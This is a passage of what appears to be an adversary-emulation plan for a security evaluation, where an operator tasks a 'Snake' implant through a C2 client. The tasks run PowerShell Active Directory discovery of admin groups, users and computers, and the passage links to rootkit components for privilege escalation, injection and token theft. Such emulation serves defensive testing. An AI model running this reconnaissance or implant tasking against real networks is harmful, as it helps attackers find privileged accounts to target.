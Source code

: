 * Wait 1 minute before tasking Snake to collect a list of Active Directory groups containing the word "management", 
as members of these groups will likely have elevated permissions on the network.
```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 2, "command": "$ProgressPreference = \"SilentlyContinue\"; Import-Module ActiveDirectory; Get-ADGroup -Filter * | Where-Object Name -Match \"management\" | Select Name"}'
```
:heavy_exclamation_mark: Verify that `Server Management` is included in the results.

* Wait 1 minute before tasking Snake to obtain the usernames of accounts within the `Server Management` domain group. This will instruct Turla on users to target next.

```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 2, "command": "$ProgressPreference = \"SilentlyContinue\"; Import-Module ActiveDirectory; Get-ADGroupMember -Identity \"Server Management\" | Select Name,SamAccountName"}'
```
:heavy_exclamation_mark: Verify that `ZilvinasAdmin` shows up in the list of accounts.

* Wait 1 minute before tasking Snake to obtain the usernames of accounts within the `Domain Admins` domain group.
```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 2, "command": "$ProgressPreference = \"SilentlyContinue\"; Import-Module ActiveDirectory; Get-ADGroupMember -Identity \"Domain Admins\" | Select Name,SamAccountName"}'
```
:heavy_exclamation_mark: Verify that `ZilvinasAdmin` shows up in the list of accounts.

* Wait 1 minute before tasking Snake to discover domain users. Ensure
`Zilvinas` and `ZilvinasAdmin` appear in the output.
```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 2, "command": "$ProgressPreference = \"SilentlyContinue\"; Import-Module ActiveDirectory; Get-ADUser -Filter {LastLogonDate -ne 0} -Properties * | Select Name,SamAccountName"}'
```

* Finally, wait 1 minute before tasking Snake to obtain a list of domain computers and some of their information (IP addresses, DNS names, and description).
```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 2, "command": "$ProgressPreference = \"SilentlyContinue\"; Import-Module ActiveDirectory; Get-ADComputer -Filter * -Properties * | Select Name,DnsName,IPv4Address,Description"}'
```
:heavy_exclamation_mark: Ensure that `Zilvinas' Workstation` appears in the `Description` field for `uosis`

---

### :moyai: Source Code

* [Snake Installer](SnakeInstaller_README.md)
  * [Privilege Escalation](privesc.cpp#L179)
  * [Disable DSE and Load Rootkit](main.cpp#L63)
  * [Start Snake Rootkit Driver](driver.cpp#L111)
* [Snake Rootkit](Snake_README.md)
  * [Driver](driver.c#L76)
  * [Function Hooking](hooks.c#L31)
    * [Infinity Hook](libinfinityhook_README.md)
  * [Drop DLL](filesystem.cpp#L22)
  * [Trigger injection on network request](wfp.cpp#L276)
  * [Inject Usermodule DLL](inject.cpp#L30)
* [Snake Usermodule DLL](UserModule_README.md)
  * [Task download](comms_http.cpp#L237)
  * [Task execution via cmd](execute.cpp#L337)
  * [Generic process execution with optional token impersonation](execute.cpp#L406)
  * [Payload download](comms_http.cpp#L604)
  * [Token duplication](execute_token.cpp#L284)